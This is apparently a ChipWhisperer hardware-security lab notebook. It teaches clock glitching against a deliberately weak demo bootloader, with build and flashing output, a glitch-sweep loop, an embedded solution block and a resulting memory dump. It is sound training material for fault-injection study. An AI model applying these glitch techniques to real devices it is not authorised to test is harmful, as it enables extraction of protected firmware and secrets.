



Part 1, Topic 3: Clock Glitching to Dump Memory (MAIN)
======================================================

**SUMMARY:** *In the previous lab, we learned how clock glitching can be
used to get a microcontroller to skip a password check. This time, we’ll
look at a more practical example: getting an example bootloader to dump
a large chunk of memory.*

**LEARNING OUTCOMES:**

-  Applying previous glitch settings to new firmware
-  Checking for success and failure when glitching
-  Understanding how compiler optimizations can cause devices to behave
   in strange ways

The Situation
-------------

Now that we’ve got our feet wet with glitching, we’re going to try
something a bit more realistic: an “encrypted” bootloader (it’s actually
just rot-13, but we’ll pretend it’s unbreakable encryption), where we
make as few assumptions as possible. Our goal will be to get that
bootloader to decrypt the data and send it back to us. Here’s what we
know about the bootloader:

1. The ``'p'`` command is used to write encrypted firmware to the
   device. It takes in an encrypted ASCII-encoded string, terminated
   with a newline. Our first chunk of firmware is
   ``"516261276720736265747267206762206f686c207a76797821"``.
2. It does *something* to it (presumably unencrypts it, authenticates
   it, etc. and writes it to memory)
3. It sends back an error code of ``"r000000\n"``

Of immediate interest is that error code. That’s the only time the
bootloader communicates back with us, so attacking there is a good place
to start. One thing that we’ll assume is that we’ve got a trigger right
before the error code is sent back to us. This is just a simple
``trigger_high()`` call, but we could also trigger on an IO line (better
with the CW1200 Pro) or with a SAD trigger on a power trace (CW1200 Pro
only). We’ve got a place to start, but let’s see if we can learn more
about the bootloader first.

**In [1]:**

.. code:: ipython3

    SCOPETYPE = 'OPENADC'
    PLATFORM = 'CWLITEARM'

**In [2]:**

.. code:: bash

    %%bash -s "$PLATFORM"
    cd ../../../hardware/victims/firmware/bootloader-glitch
    make PLATFORM=$1 CRYPTO_TARGET=NONE

**Out [2]:**

.. parsed-literal::

    rm -f -- bootloader-CWLITEARM.hex
    rm -f -- bootloader-CWLITEARM.eep
    rm -f -- bootloader-CWLITEARM.cof
    rm -f -- bootloader-CWLITEARM.elf
    rm -f -- bootloader-CWLITEARM.map
    rm -f -- bootloader-CWLITEARM.sym
    rm -f -- bootloader-CWLITEARM.lss
    rm -f -- objdir/\*.o
    rm -f -- objdir/\*.lst
    rm -f -- bootloader.s decryption.s stm32f3\_hal.s stm32f3\_hal\_lowlevel.s stm32f3\_sysmem.s
    rm -f -- bootloader.d decryption.d stm32f3\_hal.d stm32f3\_hal\_lowlevel.d stm32f3\_sysmem.d
    rm -f -- bootloader.i decryption.i stm32f3\_hal.i stm32f3\_hal\_lowlevel.i stm32f3\_sysmem.i
    .
    Welcome to another exciting ChipWhisperer target build!!
    arm-none-eabi-gcc.exe (GNU Arm Embedded Toolchain 9-2020-q2-update) 9.3.1 20200408 (release)
    Copyright (C) 2019 Free Software Foundation, Inc.
    This is free software; see the source for copying conditions.  There is NO
    warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
    
    .
    Compiling C: bootloader.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f3 -DPLATFORM=CWLITEARM -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/bootloader.lst -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/bootloader.o.d bootloader.c -o objdir/bootloader.o 
    .
    Compiling C: decryption.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f3 -DPLATFORM=CWLITEARM -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/decryption.lst -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/decryption.o.d decryption.c -o objdir/decryption.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3\_hal.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f3 -DPLATFORM=CWLITEARM -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3\_hal.lst -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f3\_hal.o.d .././hal/stm32f3/stm32f3\_hal.c -o objdir/stm32f3\_hal.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3\_hal\_lowlevel.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f3 -DPLATFORM=CWLITEARM -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3\_hal\_lowlevel.lst -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f3\_hal\_lowlevel.o.d .././hal/stm32f3/stm32f3\_hal\_lowlevel.c -o objdir/stm32f3\_hal\_lowlevel.o 
    .
    Compiling C: .././hal/stm32f3/stm32f3\_sysmem.c
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f3 -DPLATFORM=CWLITEARM -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f3\_sysmem.lst -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f3\_sysmem.o.d .././hal/stm32f3/stm32f3\_sysmem.c -o objdir/stm32f3\_sysmem.o 
    .
    Assembling: .././hal/stm32f3/stm32f3\_startup.S
    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -x assembler-with-cpp -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -DF\_CPU=7372800 -Wa,-gstabs,-adhlns=objdir/stm32f3\_startup.lst -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ .././hal/stm32f3/stm32f3\_startup.S -o objdir/stm32f3\_startup.o
    .
    Linking: bootloader-CWLITEARM.elf
    arm-none-eabi-gcc -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=soft -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f3 -DPLATFORM=CWLITEARM -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/bootloader.o -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/bootloader-CWLITEARM.elf.d objdir/bootloader.o objdir/decryption.o objdir/stm32f3\_hal.o objdir/stm32f3\_hal\_lowlevel.o objdir/stm32f3\_sysmem.o objdir/stm32f3\_startup.o --output bootloader-CWLITEARM.elf --specs=nano.specs --specs=nosys.specs -T .././hal/stm32f3/LinkerScript.ld -Wl,--gc-sections -lm -Wl,-Map=bootloader-CWLITEARM.map,--cref   -lm  
    .
    Creating load file for Flash: bootloader-CWLITEARM.hex
    arm-none-eabi-objcopy -O ihex -R .eeprom -R .fuse -R .lock -R .signature bootloader-CWLITEARM.elf bootloader-CWLITEARM.hex
    .
    Creating load file for EEPROM: bootloader-CWLITEARM.eep
    arm-none-eabi-objcopy -j .eeprom --set-section-flags=.eeprom="alloc,load" \
    --change-section-lma .eeprom=0 --no-change-warnings -O ihex bootloader-CWLITEARM.elf bootloader-CWLITEARM.eep \|\| exit 0
    .
    Creating Extended Listing: bootloader-CWLITEARM.lss
    arm-none-eabi-objdump -h -S -z bootloader-CWLITEARM.elf > bootloader-CWLITEARM.lss
    .
    Creating Symbol Table: bootloader-CWLITEARM.sym
    arm-none-eabi-nm -n bootloader-CWLITEARM.elf > bootloader-CWLITEARM.sym
    Size after:
       text	   data	    bss	    dec	    hex	filename
       4440	    124	   1292	   5856	   16e0	bootloader-CWLITEARM.elf
    +--------------------------------------------------------
    + Default target does full rebuild each time.
    + Specify buildtarget == allquick == to avoid full rebuild
    +--------------------------------------------------------
    +--------------------------------------------------------
    + Built for platform CW-Lite Arm \(STM32F3\) with:
    + CRYPTO\_TARGET = NONE
    + CRYPTO\_OPTIONS = AES128C
    +--------------------------------------------------------
    

**In [3]:**

.. code:: ipython3

    %run "../../Setup_Scripts/Setup_Generic.ipynb"

**Out [3]:**

.. parsed-literal::

    Serial baud rate = 38400
    INFO: Found ChipWhisperer😍
    

**In [4]:**

.. code:: ipython3

    fw_path = "../../../hardware/victims/firmware/bootloader-glitch/bootloader-{}.hex".format(PLATFORM)

**In [5]:**

.. code:: ipython3

    cw.program_target(scope, prog, fw_path)

**Out [5]:**

.. parsed-literal::

    Serial baud rate = 115200
    Detected known STMF32: STM32F302xB(C)/303xB(C)
    Extended erase (0x44), this can take ten seconds or more
    Attempting to program 4563 bytes at 0x8000000
    STM32F Programming flash...
    STM32F Reading flash...
    Verified flash OK, 4563 bytes
    Serial baud rate = 38400
    

The first thing we’ll do is some simple power analysis to see what the
device is doing when it sends data back to us. Serial communication is
pretty slow, so set the ChipWhisperer to capture around 24k samples with
a “x1” ADC clock.

**In [6]:**

.. code:: ipython3

    scope.clock.adc_src = "clkgen_x1"
    scope.adc.samples = 24000

Next, capture a power trace. The string
``"p516261276720736265747267206762206f686c207a76797821\n"`` will send
the bootloader the first chunk of code and plot it. If you don’t see the
full serial message, you can increase ``scope.adc.decimate``, which will
throw out every nth ADC sample.

**In [7]:**

.. code:: ipython3

    scope.arm()
    target.write("p516261276720736265747267206762206f686c207a76797821\n")
    ret = scope.capture()
    if ret:
        print("Timeout")
    trace = scope.get_last_trace()
    
    %matplotlib inline
    import matplotlib.pyplot as plt
    plt.figure()
    plt.plot(trace)
    plt.show()

**Out [7]:**

It doesn’t look like anything too crazy is going on here - it’s probably
just printing some characters in a loop. Some ideas:

-  If we glitch at the beginning of the loop, we might be able to
   corrupt the loop length variable and get it to print some extra
   memory
-  We might be able to corrupt the loop variable and get it to read past
   where it’s supposed to

Try selecting a few hundred cycles at the beginning and end of the loop.

**HINT: The last part of the loop should be near the beginning of the
last power spike.**

**HINT: If you’re really stuck on where the serial print ends, you can
find the time between the ``trigger_high()`` and ``trigger_low()`` call
with ``scope.adc.trig_count``.**

**In [8]:**

.. code:: ipython3

    print(scope.adc.trig_count)

**Out [8]:**

.. parsed-literal::

    17036
    

**In [9]:**

.. code:: ipython3

    glitch_spots = [i for i in range(1)]
    # ###################
    # Add your code here
    # ###################
    #raise NotImplementedError("Add your code here, and delete this.")
    
    # ###################
    # START SOLUTION
    # ###################
    glitch_spots.extend([i for i in range(16980, 17020, 1)])
    # ###################
    # END SOLUTION
    # ###################

**In [10]:**

.. code:: ipython3

    print(glitch_spots)

**Out [10]:**

.. parsed-literal::

    [0, 16980, 16981, 16982, 16983, 16984, 16985, 16986, 16987, 16988, 16989, 16990, 16991, 16992, 16993, 16994, 16995, 16996, 16997, 16998, 16999, 17000, 17001, 17002, 17003, 17004, 17005, 17006, 17007, 17008, 17009, 17010, 17011, 17012, 17013, 17014, 17015, 17016, 17017, 17018, 17019]
    

Evaluating Success
~~~~~~~~~~~~~~~~~~

Detecting whether our glitch was successful or not isn’t quite as
trivial as in the previous lab - we don’t have a nice error return that
the device calculates and sends back to us. One idea is that we can look
for part of the string that we sent to the device: there isn’t much time
between us sending it and the error code being returned. With any luck
the compiler will have placed both values close in memory.

Now the rest is up to you! Use what you learned in the previous lab to
setup glitch settings and a glitch loop. Here’s a few hints to make
things easier:

1. Try to use a fairly small width and offset range since we’ll need to
   scan ext_offset as well here. A total range of ~2-3 for each with 0.4
   steps is a good range to aim for.
2. Try looking for a part of the string we sent to the device to check
   for success.
3. You may want to forgo graphing or plot only successes/crashes if it
   makes things substantially slower - we’re scanning a large range of
   glitch settings so we’ll need all the speed we can get.

Get your glitch all setup here:

**In [11]:**

.. code:: ipython3

    scope.adc.timeout = 0.1
    if PLATFORM == "CWLITEXMEGA":
        def reboot_flush():            
            scope.io.pdic = False
            time.sleep(0.1)
            scope.io.pdic = "high_z"
            time.sleep(0.1)
            #Flush garbage too
            target.flush()
    else:
        def reboot_flush():            
            scope.io.nrst = False
            time.sleep(0.05)
            scope.io.nrst = True
            time.sleep(0.05)
            #Flush garbage too
            target.flush()
    
    scope.glitch.clk_src = 'clkgen'
    scope.glitch.trigger_src = 'ext_single'
    scope.glitch.repeat = 1
    scope.glitch.output = "clock_xor"
    scope.io.hs2 = "glitch"
    
    def my_print(text):
        for ch in text:
            if (ord(ch) > 31 and ord(ch) < 127) or ch == "\n": 
                print(ch, end='')
            else:
                print("0x{:02X}".format(ord(ch)), end='')
            print("", end='')

**In [12]:**

.. code:: ipython3

    import matplotlib.pylab as plt
    import chipwhisperer.common.results.glitch as glitch
    gc = glitch.GlitchController(groups=["success", "reset", "normal"], parameters=["width", "offset"])
    gc.display_stats()
    
    
    fig = plt.figure()
    plt.plot(-48, 48, ' ')
    plt.plot(48, -48, ' ')
    plt.plot(-48, -48, ' ')
    plt.plot(48, 48, ' ')

**Out [12]:**

.. parsed-literal::

    [<matplotlib.lines.Line2D at 0x15ab2c5fdc8>]

Finally, create a glitch loop. Don’t forget to check all the different
``glitch_spots`` as well!

**In [13]:**

.. code:: ipython3

    from importlib import reload
    import chipwhisperer.common.results.glitch as glitch
    from tqdm.notebook import tqdm
    import re
    import struct
    # ###################
    
    gc.set_range("width", 3, 14)
    gc.set_range("offset", -14.5, -13)
    step = 2
    gc.set_global_step(step)
    scope.glitch.repeat = 4
    
    broken = False
    for glitch_setting in gc.glitch_values():
        scope.glitch.offset = glitch_setting[1]
        scope.glitch.width = glitch_setting[0]
        if broken:
            break
        for i in tqdm(glitch_spots, leave=False):
            scope.glitch.ext_offset = i
            if broken:
                break
            if scope.adc.state:
                #print("Timeout, trigger still high!")
                gc.add("reset", (scope.glitch.width, scope.glitch.offset))
                plt.plot(scope.glitch.width, scope.glitch.ext_offset, 'xr', alpha=1)
                fig.canvas.draw()
    
                #Device is slow to boot?
                reboot_flush()
            target.flush()
            scope.arm()
            target.write("p516261276720736265747267206762206f686c207a76797821\n")
            ret = scope.capture()
            if ret:
                #print('Timeout - no trigger')
                gc.add("reset", (scope.glitch.width, scope.glitch.offset))
                plt.plot(scope.glitch.width, scope.glitch.ext_offset, 'xr', alpha=1)
                fig.canvas.draw()
    
                #Device is slow to boot?
                reboot_flush()
            else:
                time.sleep(0.05)
                output = target.read(timeout=2)
                if "767" in output:
                    print("Glitched!\n\tExt offset: {}\n\tOffset: {}\n\tWidth: {}".format(i, scope.glitch.offset, scope.glitch.width))
                    plt.plot(scope.glitch.width, scope.glitch.ext_offset, '+g')
                    gc.add("success", (scope.glitch.width, scope.glitch.offset))
                    fig.canvas.draw()
                    broken = True 
                    for __ in range(500):
                        num_char = target.in_waiting()
                        if num_char:
                            my_print(output)
                            output = target.read(timeout=50)
                    time.sleep(1)
                    break
                else:
                    gc.add("normal", (scope.glitch.width, scope.glitch.offset))

**Out [13]:**

.. parsed-literal::

    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:Timeout in OpenADC capture(), trigger FORCED
    WARNING:root:SAM3U Serial buffers OVERRUN - data loss has occurred.
    

.. parsed-literal::

    Glitched!
    	Ext offset: 17011
    	Offset: -14.453125
    	Width: 3.125
    r0
    
    
    
    
    
    6720736265747267206762206f686c207a767978210x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x00Don't forget to buy milk!0x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x0080x01@0x000x960x00 0x000x000x000x000x000x000x000x000x080x000x000x000x080x0080x01@0x00D0x00@0x0080x01@0xFF0x010x000x000x010x000x000x000x010x000x000x000x000x000x000x00S0x000xDB0x060x010x000x010x000x880x060x000x000x070x000x000x000x840xFF0x0B0x000x120x010x000x010x000x000x00@0x830x040x110xDF0x00"0x010x020x030x010x000x000xB80x010x00 0x120x000x000x00 0x010x00 $0x000x000x000x040x030x090x040x010x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x